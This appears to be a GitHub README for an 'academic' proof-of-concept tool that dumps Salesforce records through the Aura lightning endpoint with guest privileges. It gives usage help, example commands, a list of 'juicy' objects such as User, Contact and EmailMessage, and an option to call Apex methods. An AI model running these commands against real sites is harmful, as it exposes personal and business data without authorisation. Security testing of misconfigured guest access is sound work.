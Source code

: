 # PoC for Salesforce lightning
***Academic purposes Only***. 


This tool dumps the data of Salesforce object through Aura lightning endpoint with the guest privilege.


雑なコードだけど許してくれい => I tried to address some of that


# Requirement
- Python3 

# Usage
```
$ python3 exploit.py -h
usage: exploit.py [-h] -u URL [-o [OBJECTS ...]] [-l] [-c] [-a AURA_ENDPOINT_CONFIG] [-r RECORD_ID] [-d] [-f] [-s] [-p] [-e] [-x]

Exploit Salesforce through the aura endpoint with the guest privilege

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     set the SITE url. e.g. http://url/site_path
  -o [OBJECTS ...], --objects [OBJECTS ...]
                        set the object name. Default value is "User" object. Juicy Objects:
                        Case,Account,User,Contact,Document,ContentDocument,ContentVersion,ContentBody,CaseComment,Note,Employee,Attachment,EmailMessage,CaseExternalDocument,Attachment,Lead,Name,EmailTemplate,EmailMessageRelation
  -l, --listobj         pull the object list.
  -c, --check           only check aura endpoint
  -a AURA_ENDPOINT_CONFIG, --aura_endpoint_config AURA_ENDPOINT_CONFIG
                        set your valid aura_endpoint_config
  -r RECORD_ID, --record_id RECORD_ID
                        set the recode id to dump the record
  -d, --dump_objects    dump a small number of objects accessible to guest users and saves them in the file.
  -f, --full            if set with -d, dump all pages of objects.
  -s, --skip            if set with -d, skip the objects already dumped.
  -p, --pull_custom_components
                        if set will load component definitions
  -e, --extract_apex_methods
                        Extracts Apex methods from custom components
  -x, --execute_apex    Calls an Apex Method. Details must be changed in exploit.py for now
```

# Examples 
```
# just list objects
$ python3 exploit.py -u https://domain.force.com/path/ -l

# show User and Account object
$ python3 exploit.py -u https://domain.force.com/path/ -o User Account

# save all objects(only page 1)
$ python3 exploit.py -u https://domain.force.com/path/ -d -s
```

# Reference
- Salesforce Lightning - An in-depth look at exploitation vectors for the everyday community
  - https://www.enumerated.de/index/salesforce (404), use https://web.archive.org/web/20201031233746/https://www.enumerated.de/index/salesforce
